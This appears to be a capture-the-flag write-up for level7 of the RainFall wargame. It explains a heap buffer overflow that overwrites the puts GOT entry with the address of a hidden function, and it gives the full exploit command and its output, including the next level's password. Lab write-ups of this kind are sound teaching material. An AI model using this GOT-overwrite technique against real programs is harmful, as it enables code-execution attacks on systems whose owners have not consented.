

# level7

```sh
➜  ~ ssh level7@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level7@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```

# Kid ---> Dumbest pirate of the worst generation

```sh
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 'Kid vs Shanks was not a fight, it was an agression'
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "Ikoku" "Hakoku"
~~
level7@RainFall:~$
```

__Two tilds...__



- `v6` is allocated `0x8u` (8 bytes)
- `v6[0]` is allocated `0x8u` (8 bytes)
- `v5` is allocated `0x8u` (8 bytes)
- `v5[0]` is allocated `0x8u` (8 bytes)
- `argv[1]` is copied in `v6[1]`
- `argv[2]` is copied in `v5[1]`
- `v3` stock the content of the file `/home/user/level8/.pass` and passed to the global variable `c`
- A hidden an not-used function `m` that `printf` the content of `c` and the current time (???).

# Vulnerability : <u>Heap Buffer Overflow Attack</u>

This time, we have to overflow in the heap. We have to overflow `v6`, then passed the address of `puts@got.plt`. And as a second argument, we passed the address of the hidden function `m`.

What will be happens ? It replace the address of `puts@got.plt` by the address of `m`. When `puts` will be called, it redirect to the address of the function `m`.

Let's try this (the offset of the first argument was `20`) :

```sh
level7@RainFall:~$ ./level7 `python -c 'print "-"*20 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1729434708
level7@RainFall:~$
```

# LEZZZZZZGOOOOOOOOO

Let's go to the next level !

```sh
level7@RainFall:~$ su level8
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

# level7 complet !

